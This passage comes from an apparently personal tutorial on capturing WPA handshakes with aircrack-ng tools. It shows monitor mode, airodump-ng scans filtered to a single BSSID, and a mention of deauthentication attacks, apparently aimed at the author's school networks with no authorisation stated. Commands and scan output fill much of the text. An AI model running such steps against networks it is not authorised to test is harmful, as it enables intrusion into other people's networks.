 With that being done, I can switch the network adapter (identified as `wlp1s0`) into **monitor mode**. This allows it to pick up (or "sniff") packets being sent to/from an access point. I can also specify a channel with the `-c` flag.

    root@kubuntu:~# airmon-ng start wlp1s0

    PHY	Interface	Driver		Chipset
    phy0	wlp1s0		rtw_8822ce	00.0 Network controller: Realtek Semiconductor Co., Ltd. RTL8822CE 802.11ac PCIe Wireless Network Adapter
    (mac80211 monitor mode already enabled for [phy0]wlp1s0 on [phy0]10)

Now, we're ready to intercept packets.

### Capturing a WPA handshake

To quickly test passwords for an access point (which is kind of important for brute-forcing), I can capture a **handshake** which contains the answer to the one-way hash function that the password is compared with. This allows me to test millions of passwords very quickly by comparing them to the hashed password found in the WPA handshake. From there, it's just a matter of brute-forcing the hash.

But to do all of that, first I need to capture a handshake as it occurs. This can be done using the `airodump-ng` and `aireplay-ng` commands from aircrack.

**airodump-ng** is the main tool responsible for selecting a target network and capturing the handshake. **aireplay-ng** is a tool used to send de-authentication attacks to the access point, which will come into play later.

    root@kubuntu:~# airodump-ng wlp1s0

Finally, here we have the **airodump CLI**.

    CH 14 ][ Elapsed: 0 s ][ 2022-11-07 14:31

    BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    88:51:00:00:00:00   -1        0        1    0   7   -1   WPA              Students_Wifi
    DA:55:00:00:00:00  -30        2        0    0   1  360   WPA2             Admin_Wifi

_(These network names are fake, since I'm not just going to give out my school's name.)_

This shows all of the access points found in the area, and important information about them such as their **BSSID**, **ESSID**, **channel**, and **encryption** (which is some form of WPA). Airodump will attempt to capture a handshake, which occurs when a device attempts to authenticate with the access point. To narrow our search down to a specific access point, I will select a specific network by its BSSID and channel and only search for it.

    root@kubuntu:~# airodump-ng wlp1s0 --bssid 88:51:00:00:00:00 -c 7 -w OUTPUTFILE

The `-w OUTPUTFILE` argument tells airodump to write any captured WPA handshakes to a file named `OUTPUTFILE-01.cap`.
Now, we have this result.

    CH 7 ][ Elapsed: 0 s ][ 2022-11-07 14:31

    BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    88:51:00:00:00:00   -1        0        1    0   7   -1   WPA              Students_Wifi

Instead of having multiple networks shown, we have filtered the scan down to a single address. This increases our chances of capturing a WPA handshake for this specific network.
